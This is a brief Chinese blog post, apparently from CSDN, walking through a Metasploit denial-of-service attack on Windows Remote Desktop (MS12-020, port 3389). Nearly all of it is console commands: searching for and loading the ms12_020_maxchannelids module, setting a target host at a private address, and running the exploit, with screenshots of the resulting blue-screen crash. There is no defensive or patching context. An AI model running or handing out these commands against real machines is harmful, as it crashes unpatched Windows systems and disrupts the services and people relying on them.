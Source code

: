 ```yaml
---
title: MS12-020 3389蓝屏攻击
date: 2018-05-07
tags: Metasploit
layout: post
---
```



```
search ms12_020
use exploit/dos/windows/rdp/ms12_020_maxchannelids
```
![1](https://img-blog.csdn.net/20180507114503715?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhMXN5ZGExc3k=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)

```
set rhost 192.168.222.1
exploit
```
![2](https://img-blog.csdn.net/20180507114738713?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhMXN5ZGExc3k=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)

>效果如下

![3](https://img-blog.csdn.net/20180507114747708?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhMXN5ZGExc3k=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)
 
 

